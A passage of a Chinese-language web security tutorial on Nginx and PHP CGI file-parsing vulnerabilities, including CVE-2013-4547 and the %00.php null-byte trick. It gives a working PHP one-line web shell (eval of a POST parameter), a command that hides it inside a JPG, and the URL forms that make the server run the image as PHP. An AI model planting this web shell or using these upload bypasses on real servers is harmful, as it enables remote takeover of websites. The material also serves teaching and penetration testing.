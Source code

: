 ```
<?PHP fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd])?>');?>
```
写在文本`xx.txt`中(或者shell语句直接写一句话，用菜刀、cknife等直连，只是容易被查杀），然后用命令将shell语句附加在正常图片`xx.jpg`后

```
copy xx.jpg/b + xx.txt/a test.jpg
```

* 上传`test.jpg`，然后访问`test.jpg/.php`或`test.jpg/abc.php`当前目录下就会生成一句话木马 `shell.php`

### Nginx解析漏洞
#### 畸形解析漏洞
##### 原理
* 对任意文件名，在后面添加”`/任意文件名.php`”的解析漏洞，比如图片木马文件名是`test.jpg`，可以添加为`test.jpg/x.php`进行**解析攻击**,那么`test.jpg`会被当成PHP脚本来解析。注意,此时的`x.php`是不存在的
> 这种解析漏洞其实是`PHP CGI`漏洞,在PHP配置文件中有个关键的选项:`cgi.fi: x_pathinfo`,这个选项在某些版本中是默认开启的,在开启时访问URL,比如: `http://www.xxser.com/x.txt/x.php`,`x.php`是不存在的文件,所以**PHP会`向前递归`解析**,于是造成了解析漏洞.由于Nginx和PHP配合很容易造成这种漏洞,所以,PHP CGI漏洞常常被认为是Nginx解析漏洞,所以其实跟Nginx自身是无关的。

##### 利用
* 将shell语句，如  
```php
<?PHP fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd])?>');?>
```
写在文本`xx.txt`中(或者shell语句直接写一句话，用菜刀、cknife等直连，只是容易被查杀）

* 然后用命令将shell语句附加在正常图片`xx.jpg`后

```
copy xx.jpg/b + xx.txt/a test.jpg
```

* 上传`test.jpg`，然后访问`test.jpg/.php`或`test.jpg/abc.php`,当前目录下就会生成一句话木马 `shell.php`

#### 空字节代码执行漏洞
##### 原理
* 低版本的Nginx可以在任意文件名后面添加`%00.php`进行**解析攻击**。

```
Nginx0.5.
Nginx0.6.
Nginx0.7. <= 0.7.65
Nginx0.8. <= 0.8.37
```

##### 利用
* 比如在图片后附加php代码,然后通过访问
```
xx.jpg%00.php
```
来执行其中的代码

#### 文件名逻辑漏洞(CVE-2013-4547)
* 受影响的nginx版本: 0.8.41至1.4.3和1.5.7之前的1.5.x
* 正常上传一个附加代码的图片`test.jpg`，访问时后面+`空格`+`\\0`+`.php`，即让图片作为php文件解析
